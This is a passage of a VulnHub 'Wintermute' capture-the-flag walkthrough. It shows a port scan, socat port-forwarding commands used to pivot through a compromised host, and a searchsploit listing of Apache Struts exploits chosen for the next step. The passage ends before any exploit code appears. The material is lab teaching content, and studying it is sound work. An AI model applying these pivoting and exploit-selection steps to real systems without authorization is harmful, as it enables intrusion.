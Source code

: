 ```
(UNKNOWN) [192.168.219.6] 34483 (?) open
(UNKNOWN) [192.168.219.6] 8080 (http-alt) open
(UNKNOWN) [192.168.219.6] 8009 (?) open
```
We get 3 open ports 8009, 8080, 34483. Previously from LinEnum we found that socat is installed we shall use it to forward this ports to our address.
Using socat;
This activity was such a minder bender:
Lets break it down
```
socat tcp-listen:8009,fork tcp:192.168.219.6:8009 &
socat tcp-listen:8080,fork tcp:192.168.219.6:8080 &
socat tcp-listen:34483,fork tcp:192.168.219.6:34483 &

socat tcp-listen:4321,fork tcp:192.168.251.4:4321 &
```
![1-1.png](/assets/images/posts/wintermute-vulnhub-walkthrough/1-12.png)
When we scan target straylight from the attacking kali box we can see all ports have been forwarded.

Previously, we had seen that we had been given `/struts2_2.3.15.1-showcase`, Checking if the service is vulnerable;

```
kali@marksmith:~$ searchsploit struts 2.3
---------------------------------------- ----------------------------------------
 Exploit Title                          |  Path
                                        | (/usr/share/exploitdb/)
---------------------------------------- ----------------------------------------
Apache Struts 2 < 2.3.1 - Multiple Vuln | exploits/multiple/webapps/18329.txt
Apache Struts 2.0.1 < 2.3.33 / 2.5 < 2. | exploits/multiple/remote/44556.py
Apache Struts 2.2.3 - Multiple Open Red | exploits/multiple/remote/38666.txt
Apache Struts 2.3 < 2.3.34 / 2.5 < 2.5. | exploits/linux/remote/45260.py
Apache Struts 2.3 < 2.3.34 / 2.5 < 2.5. | exploits/multiple/remote/45262.py
Apache Struts 2.3.5 < 2.3.31 / 2.5 < 2. | exploits/linux/webapps/41570.py
Apache Struts 2.3.5 < 2.3.31 / 2.5 < 2. | exploits/multiple/remote/41614.rb
Apache Struts 2.3.x Showcase - Remote C | exploits/multiple/webapps/42324.py
Apache Struts < 1.3.10 / < 2.3.16.2 - C | exploits/multiple/remote/41690.rb
Apache Struts2 2.0.0 < 2.3.15 - Prefixe | exploits/multiple/webapps/44583.txt
---------------------------------------- ----------------------------------------
Shellcodes: No Result

```
Struts is vulnerable and we'll using a modified version of `45260.py` let's call it exploit.sh


[jekyll]:      http://jekyllrb.com
[jekyll-gh]:   https://github.com/jekyll/jekyll
[jekyll-help]: https://github.com/jekyll/jekyll-help
[1]: https://www.vulnhub.com/entry/wintermute-1,239/
[2]: https://twitter.com/@_creosote
[3]: https://www.vulnhub.com/
[4]: https://github.com/21y4d/nmapAutomator